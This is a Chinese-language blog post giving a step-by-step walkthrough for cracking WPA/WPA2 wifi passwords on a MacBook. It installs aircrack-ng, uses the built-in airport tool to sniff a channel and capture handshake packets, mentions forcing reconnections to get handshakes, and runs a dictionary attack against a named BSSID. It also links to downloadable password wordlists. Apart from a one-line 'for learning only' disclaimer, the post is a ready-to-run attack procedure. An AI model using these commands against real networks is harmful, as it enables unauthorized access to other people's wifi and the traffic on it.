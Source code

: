 ```yaml
---
layout: post
title: 使用macbook破解WPA/WPA2 wifi密码
---
```


文本仅供学习交流。

我使用的系统是macbook air：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 11.26.50.png)

## 安装aircrack-ng

使用[macport](https://www.macports.org/install.php)安装，命令：

{% highlight shell %}
$ sudo port install aircrack-ng
{% endhighlight %}

## 抓包－抓取带密码的握手包

macbook自带了一个wifi工具：airport。

首先，断开wifi：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.10.48.png)

查看周围的wifi：

{% highlight shell %}
$ /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -s
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.12.27.png)

查看本机的无线网卡设备：

{% highlight shell %}
$ ifconfig
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.16.15.png)

**抓包：**

airport可以使用网卡的监听模式抓取周围的无线网络数据包。其中，对我们最重要的数据包是：包含密码的包－也叫握手包。当有新用户或断开用户自动连接wifi时，会发送握手包。有一种攻击方式是reinjecting packet，它可以强制无线路由器重启，这样当用户自动连接时可以获得握手包。如果无线路由器用户多的话，可以静等（[Kali Linux使用Aircrack破解wifi密码(wpa/wpa2)](http://topspeedsnail.com/kali-linux-crack-wifi-wpa/)）。

{% highlight shell %}
$ sudo /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport en0 sniff 6
{% endhighlight %}

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.35.17.png)

en0是无线网卡设备；6是要破解wifi的CHANNEL。

静等用户连接wifi，获得握手包。

抓的包，保存在/tmp：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.27.21.png)

## 破解wifi密码

获得握手包之后，我们还需要破解加密的密码。

好的密码字典一个，应包含常见的弱密码、手机号、姓名生日组合、各大网站泄露的密码、英语单词等等。如果使用字典破解不了，说明密码还算复杂；暴力穷举更是费时费力。（论复杂密码的重要性）。

{% highlight shell %}
$ sudo aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap
{% endhighlight %}

-w：指定字典文件；－b：指定要破解的wifi BSSID。

破解过程：

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 14.45.30.png)

![macbook]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-05 at 15.15.39.png)

> ### 我使用的密码字典：
> 
> http://pan.baidu.com/s/1clxaCA (全，未压缩15G)
>
> http://pan.baidu.com/s/1o7MCcHk (简，未压缩680M)
